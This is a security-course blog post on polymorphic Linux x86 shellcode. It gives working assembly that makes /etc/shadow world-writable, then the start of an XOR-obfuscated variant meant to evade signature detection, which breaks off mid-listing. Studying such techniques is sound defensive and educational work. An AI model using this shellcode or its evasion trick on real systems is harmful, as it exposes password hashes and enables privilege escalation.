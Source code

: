 ```yaml
---
layout: single
title: Polymorphic Linux Shellcode
date: 2018-12-11
classes: wide
categories:
  - slae
  - infosec
tags:
  - slae
  - assembly
  - polymorphic
---
```


This blog post shows 3 polymorphic variants of common shellcodes found on [shell-storm.org](http://shell-storm.org/shellcode/).

Note that the original shellcode is shown here using Intel syntax.

## Sample 1: Linux/x86 - chmod(/etc/shadow, 0777)

- Original size: 29 bytes
- Polymorphic size: 41 bytes (41% increase)
- Source: [http://shell-storm.org/shellcode/files/shellcode-593.php](http://shell-storm.org/shellcode/files/shellcode-593.php)

### Original code:

```nasm
global _start

section .text

_start:

xor eax,eax
push eax
push dword 0x776f6461 ; /etc/shadow
push dword 0x68732f63
push dword 0x74652f2f
mov ebx,esp
push word 0x1ff
pop ecx
mov al,0xf
int 0x80
```

### Polymorphic code:

```nasm
global _start

section .text

_start:

mov ecx, 0x01ff87fd ; XOR key + mode (upper half)
mov eax, 0x0188e899 ; /etc/shadow (XOR encoded)
mov ebx, 0x6097f4d2
mov edx, 0x628be2d2
xor eax, ecx
xor ebx, ecx
xor edx, ecx
```